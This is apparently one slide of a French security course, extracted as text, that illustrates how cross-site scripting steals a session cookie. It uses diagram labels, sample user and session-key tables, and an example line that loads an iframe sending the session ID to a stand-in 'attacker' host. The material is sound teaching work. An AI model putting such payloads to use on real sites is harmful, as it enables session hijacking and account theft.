

15
Cross-Site Scripting(XSS)

anatomie d'un vol de cookie
DB

Web App
Web Server

Attaquant
Web App
Web App
DB
SESSID=28946871355

Get /SESSID=28946871355
Web App
Code JavaScript malveillant

| NAME | PASS |
| --- | --- |
| Cheikh | 171717 |
Web Client
| Session Keys |
| --- |
| 94127159621 |
| 28946871355 |
<iframe src=
http://attacker/SESSID=28946871355>
| NAME | PASS |
| --- | --- |
| Naty | 161616 |
SESSID=28946871355